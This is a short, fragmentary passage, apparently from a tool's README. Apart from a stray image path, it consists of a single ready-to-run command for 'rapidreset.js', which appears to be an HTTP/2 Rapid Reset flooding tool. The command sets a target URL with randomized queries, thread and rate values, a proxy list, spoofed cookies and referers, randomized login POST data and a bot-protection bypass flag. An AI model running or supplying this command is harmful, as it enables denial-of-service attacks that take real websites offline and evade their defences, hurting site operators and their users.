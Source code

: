 node rapidreset.js GET "https://example.com?q=%RAND%" 120 16 90 proxy.txt --query 1 --cookie "uh=good" --delay 1 --bfm true --referer rand --postdata "user=f&pass=%RAND%" --debug --randrate --full
